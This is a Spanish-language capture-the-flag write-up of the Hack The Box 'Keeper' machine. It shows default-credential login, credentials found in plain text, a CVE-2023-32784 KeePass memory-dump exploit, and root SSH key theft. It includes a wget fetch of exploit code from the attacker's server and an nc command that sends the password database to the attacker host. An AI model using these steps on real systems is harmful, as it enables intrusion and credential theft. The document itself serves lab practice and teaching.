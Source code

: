 ```yaml
---
title: Keeper
description: Keeper es una máquina de dificultad fácil en Linux que presenta un sistema de gestión de tickets de soporte con credenciales por defecto. Al enumerar el servicio, se pueden encontrar credenciales en texto claro que permiten el acceso a SSH. Con acceso a SSH, se puede obtener un volcado de la base de datos de KeePass, lo cual permite recuperar la contraseña maestra. Una vez con acceso a la base de datos de KeePass, se obtienen las claves SSH de root, que permiten obtener una shell con privilegios en el host.
date: 2023-08-12
toc: true
pin: true
image:
  path: /assets/img/htb-writeup-keeper/keeper_logo.png
categories:
  - Machines
tags:
  - htb
  - linux
  - osint
  - cve
---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/keeper:-$ sudo nmap -sCV 10.10.11.227 -n -Pn -oN map1
```

![](/assets/img/htb-writeup-keeper/keeper2.png)

---
## Web Analysis & Osint

![](/assets/img/htb-writeup-keeper/keeper3.png)

```terminal
/home/kali/Documents/htb/machines/keeper:-$ echo "10.10.11.227\tkeeper.htb\ttiquets.keeper.htb" | sudo tee -a /etc/hosts
```

![](/assets/img/htb-writeup-keeper/keeper4.png)

Busco las credenciales por defecto del servicio '4.4.4+dfsg-2ubuntu1'.

<https://docs.bestpractical.com/rt/4.4.4/security.html>
>"Be sure to change the password for the 'root' user of RT. The default password is 'password'. This can be changed via the RT web interface at: Preferences > About me"

![](/assets/img/htb-writeup-keeper/keeper5.png)

Encuentro 2 usuarios registrados en el sistema. Y en el usuario 'lnorgaard' encuentro la contraseña 'Welcome2023!'.
 
![](/assets/img/htb-writeup-keeper/keeper6.png)

![](/assets/img/htb-writeup-keeper/keeper7.png)

```terminal
/home/kali/Documents/htb/machines/keeper:-$ ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password: Welcome2023!
lnorgaard@keeper:~$ ls
	RT30000.zip  user.txt
```
---
## Privilege Escalation & CVE Exploitation

```terminal
lnorgaard@keeper:~$ unzip RT30000.zip
	Archive: RT30000.zip
	inflating: KeePassDumpFull.dmp
	extracting: passcodes.kdbx
```

<https://nvd.nist.gov/vuln/detail/CVE-2023-32784>

El archivo 'KeePassDumpFull.dmp' es un volcado de memoria o 'dump' de un proceso de KeePass. La Vulnerabilidad CVE-2023-32784 permite recuperar la contraseña maestra en texto claro a partir de un volcado de memoria, incluso si la base de datos de KeePass está bloqueada o el proceso de KeePass ya no está en ejecución.

Existe un Proof of Concept en github precisamente para esto.
Una vez clonado el PoC, monto un servidor para exportarlo a la maquina victima.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ sudo git clone https://github.com/CMEPW/keepass-dump-masterkey.git

/home/kali/Documents/htb/machines/keeper:-$ python3 -m http.server 

lnorgaard@keeper:~$ wget http://10.10.15.26:8000/poc.py
```

Al explotar el CVE, la primera letra de la contraseña no se recupera.

```terminal
lnorgaard@keeper:~$ python3 poc.py -d KeePassDumpFull.dmp
```

![](/assets/img/htb-writeup-keeper/keeper9.png)

Realizo una busqueda del resultado '●,dgr●d med fl●d' y encuentro una palabra en danes que coincide 'rødgrød med fløde'.

Importo 'keepass.kdbx' con Netcat. E instalo Keepass para abrir el archivo anterior.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ nc -nlvp 1234 > keepass.kdbx
	listening on any 1234 ...

lnorgaard@keeper:~$ nc 10.10.15.26 1234 < passcodes.kdbx
	nc 10.10.15.26 1234 < passcodes.kdbx

	... connect to [10.10.15.26] from (UNKNOWN) [10.10.11.227] 60582
	
/home/kali/Documents/htb/machines/keeper:-$ sudo apt install keepass2

/home/kali/Documents/htb/machines/keeper:-$ keepass2 keepass.kdbx
```

![](/assets/img/htb-writeup-keeper/keeper10.png)

![](/assets/img/htb-writeup-keeper/keeper11.png)

![](/assets/img/htb-writeup-keeper/keeper12.png)

 Copio y guardo la clave 'PuTTY' en un archivo '.ppk'.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ echo 'PuTTY-User-Key-File-3.md: ssh-rsa Encrypt…' > key.ppk
```
Para conviertir la clave privada del archivo '.ppk' a un formato '.pem' que OpenSSH puede utilizar, descargo la herramienta Putty-Tools.

```terminal
/home/kali/Documents/htb/machines/keeper:-$ sudo apt install putty-tools 

/home/kali/Documents/htb/machines/keeper:-$ puttygen key.ppk -O private-openssh -o key.pem

/home/kali/Documents/htb/machines/keeper:-$ chmod 600 key.pem

/home/kali/Documents/htb/machines/keeper:-$ ssh -i key.pem root@10.10.11.227

root@keeper:~# cat root.txt
```
